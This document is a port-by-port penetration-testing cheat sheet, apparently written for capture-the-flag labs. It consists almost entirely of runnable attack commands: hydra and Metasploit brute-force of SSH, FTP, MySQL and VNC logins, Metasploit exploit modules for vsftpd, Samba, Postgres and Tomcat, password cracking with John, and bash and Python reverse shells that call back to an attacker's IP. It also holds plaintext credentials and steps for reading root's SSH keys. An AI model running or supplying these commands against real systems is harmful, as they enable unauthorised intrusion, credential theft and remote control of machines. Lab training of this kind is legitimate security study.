 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 nmap -sC -sT Target   (TCP SCAN)

 nmap -A Target (Aggressive scan)

#### Kali Commands
sudo -l (To check all the permissions provided to the current user after using sudo command)
 
curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"

curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php

curl -H "User-Agent: Sup3rS3cr3tAg3nt" -H "Referer:awesomesauce.com" http://165.227.106.113/header.php

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**

show options

set RHOSTS ip

exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

#### Connect to SMB (View Shares)

smbclient -L \\10.10.101.175 or smbclient -L 10.10.101.175

smbclient //10.10.101.175/anonymous

ls

get log.txt

smbclient //10.10.61.86/milesdyson -U milesdyson  (Login to smb)

#### John The Ripper command

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash

#### Reverse Shell
```
nc -lvp 8080

bash -c 'bash -i >& /dev/tcp/10.10.210.158/8080 0>&1' (10.10.210.158 is attacker's ip and this line is executed in vuln. website)
```
```
nc -lvp 1234

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]); (Python code for reverse shell)
```

#### Hydra Commands

hydra -l username -P passwordlist.txt ssh://target_ip

hydra -L userlist.txt -P passwordlist.txt ftp://target_ip

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh


### Base32 and 64 Decode

echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d


### Port  5432 (Postgres)
```
search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever
```
### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

### Port 3389

xfreerdp /u:wade /p:parzival /v:10.10.167.18  (Connect using Linux)

### Port 3306

hydra -L usernames.txt -P passwords.txt 192.168.1.100 mysql

mysql -h example.com -u root -p

### Nessus

nessus ( command /bin/systemctl start nessusd.service, the go to https://localhost:8834/#/ and login, root, Root@123 in windows)

#### For Windows

Start

C:\Windows\system32>net start "Tenable Nessus"

Stop	

C:\Windows\system32>net stop "Tenable Nessus"
